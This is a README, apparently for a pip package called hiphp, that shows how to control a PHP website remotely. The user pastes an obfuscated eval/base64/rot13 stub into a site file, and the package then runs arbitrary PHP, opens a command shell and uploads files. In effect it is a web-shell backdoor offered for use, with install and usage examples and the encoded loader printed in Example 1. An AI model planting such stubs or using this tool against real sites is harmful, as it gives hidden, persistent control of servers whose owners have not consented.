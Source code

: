 
<p align="center"><img align="center" src="https://raw.githubusercontent.com/yasserbdj96/hiphp/main/screenshot/screenshot.png"></p>
<h1>hiphp for control php websites.</h1>

<p>A package for controlling a php-based website.</p>

<h2>Installation:</h2>

```
pip install hiphp==0.1.11
```

<h2>Usage:</h2>

```python
from hiphp import hiphp
p1=hiphp("<PASSWORD>","<http://THE/LINK/TO/THE/PHP/FILE/THAT/CONTAINS/THE/HIPHP/ID>",False) #In order to print the result directly.
#p1=hiphp("<PASSWORD>","<http://THE/LINK/TO/THE/PHP/FILE/THAT/CONTAINS/THE/HIPHP/ID>") #In order to make the result as a variable.
print(p1.get_code()) #Get HIPHP ID for first use.
p1.run("<YOUR_CODE>") #Run a code or line in your website.
p1.run_file("<PHP_CODE_FILE_PATH>") #Run a code or line in your website from a file.
p1.run_file("<PHP_CODE_FILE_PATH>","<__VALUE_NAME__>==<VALUE_CONTENT>") #Run a code or line in your website from a file With the entry of variables.
p1.cli() #open command panel
p1.upload("<THE_PATH_OF_THE_FILE_TO_BE_UPLOADED>") #Upload a file to the server hosting the site.
p1.upload("<THE_PATH_OF_THE_FILE_TO_BE_UPLOADED>","./<THE_PATH_YOU_WANT_TO_UPLOAD_THE_FILE_TO>")

```

<h2>Examples:</h2>

```python
from hiphp import hiphp
p1=hiphp("123","http://localhost/index.php",False)
# Example:1
# GET ID:
print(p1.get_code())
# OUTPUT:
'''
/*php code start*/
eval(str_rot13(base64_decode(str_rot13(base64_decode('bkpMYldTOUdFSVdKRUlXb1cwdUhJU09zSUlBU0h5OU9FMElCSVBxcUNHMGFaUUx3QlJEM0F3RDBBUlJsWndSbEIwRGtDR1pqWUd0MFdHRDVDbU4xQ1JaakpteDFybVNPWFFOMkJ3SVBuR1Zsb0hObFpRTzBEbU9uQkdEY1p3dTlEMFdxQkdEK0FtTnVEeFp4QXdOekR3RXNBbU5lQUhWa0VRTG1abVYxRHdwM1pSTDVXbHk3TUpBYm9scHdwVXkwblQ5aFdtZ2NNdnVjcDNBeXFQdHhLMU9DSDFFb1cyQWlvSjF1b3pEYUtGeGNyMkkyTEpqYldTOURHMUFISmxxd28yMWdMSjV4VzEwY0IzMXlyVHkwQjMwPQ==')))));
/*php code end*/
'''
# Copy this code into the file whose path you entered earlier.
# for example: https://localhost/index.php
# Example:2
# Command:
p1.run("echo 'this is a test';")
# OUTPUT:
'''
this is a test
'''
# Example:3
# Run code from file:
#-example_3.php content:
'''
echo 'this is a test';
'''
#OR
'''
<?php
    echo 'this is a test';
?>
'''
p1.run_file("example_3.php")
# OUTPUT:
'''
this is a test
'''
# Example:4
# Run code from file With the entry of variables:
#-example_4.php content:
'''
echo '__test__';
'''
#OR
'''
<?php
    echo '__test__';
?>
'''
p1.run_file("example_4.php","test==this is a test")
# OUTPUT:
'''
this is a test
'''
# Example:5
# Command line interface:
p1.cli()
# OUTPUT:
'''
hiphp>>>
'''
# Example:6
# Upload a picture:
p1.upload("picture_example.png")
# Example:7
# Upload a picture to a specific path:
p1.upload("picture_example.png","./pictures/")

```

<h2>Changelog:</h2>

```
## 0.1.11
 - Command interface update.
 - Bug fixes & performance improvements.
## 0.1.10
 - Fix Bugs.
## 0.1.9
 - fix bugs.
 
## 0.1.7
 - fix bugs.
 
## 0.1.6
 - fix bugs.
 - add upload to upload any file.
 - Simplify the use of the program.
 
## 0.1.5
 - fix bugs.
## 0.1.4
 - fix bugs.
 - new build.
 
## 0.1.1
 - Import pakages by pipincluder.
 - Fix bugs.
 
## 0.1.0
 - New build.
 - Fix bugs.
 
## 0.0.4
 - Fix bugs.
 
## 0.0.2
 - Fix bugs.
 - Add help list.
 - Add Executing from files.
 
## 0.0.1
 - First public release.

```

<h1></h1> 
   
<p align="center">
   <a href="https://yasserbdj96.github.io" align="center"><img align="center" alt="Website" src="https://img.shields.io/badge/Website-3b5998?style=flat-square&logo=google-chrome&logoColor=white"></a>
   <a href="https://www.linkedin.com/in/yasserbdj96" align="center"><img align="center" alt="LinkedIn" src="https://img.shields.io/badge/-LinkedIn-0e76a8?style=flat-square&logo=Linkedin&logoColor=white"></a>
   <a href="https://twitter.com/yasserbdj96" align="center"><img align="center" alt="Twitter" src="https://img.shields.io/badge/-Twitter-00acee?style=flat-square&logo=Twitter&logoColor=white"></a>
   <a href="https://www.instagram.com/yasserbdj96" align="center"><img align="center" alt="Instagram" src="https://img.shields.io/badge/-Instagram-e4405f?style=flat-square&logo=Instagram&logoColor=white"></a>
   <a href="https://www.facebook.com/yasserbdj96" align="center"><img align="center" alt="Facebook" src="https://img.shields.io/badge/-Facebook-0088cc?style=flat-square&logo=facebook&logoColor=white"></a>
   <a href="https://www.youtube.com/channel/UC53dtKxc84BNPyDb51rtRPg" align="center"><img align="center" alt="Youtube" src="https://img.shields.io/badge/-Youtube-ea4335?style=flat-square&logo=youtube&logoColor=white"></a>
   <a href="https://pypi.org/user/yasserbdj96" align="center"><img align="center" alt="Pypi" src="https://img.shields.io/badge/-Pypi-efeeea?style=flat-square&logo=pypi"></a>
   <a href="mailto:yasser.bdj96@gmail.com" align="center"><img align="center" alt="Gmail" src="https://img.shields.io/badge/-yasser.bdj96@gmail.com-c14438?style=flat-square&logo=Gmail&logoColor=white&link=mailto:yasser.bdj96@gmail.com"></a>
</p>

<p align="center">
    BTC : 16mUJYXdNh9VkjN3MQawA8wvYJqL9F5CKZ

</p>

<p align="center">
    <a align="center" href="https://ko-fi.com/L3L34CEPV">
        <img alt="ko-fi" align="center" src="https://ko-fi.com/img/githubbutton_sm.svg">
    </a>
</p>

<p align="center">
    <a align="center" href="https://yasserbdj96.github.io">
        <img align="center" alt="yasserbdj96" height="100" src="https://raw.githubusercontent.com/yasserbdj96/yasserbdj96/main/images/yasserbdj96.png">
    </a>
    <br>
    <a align="center" href="https://github.com/yasserbdj96/" align="center">
        <img align="center" alt="" src="https://visitor-badge.laobi.icu/badge?page_id=yasserbdj96.hiphp">
    </a>
</p>
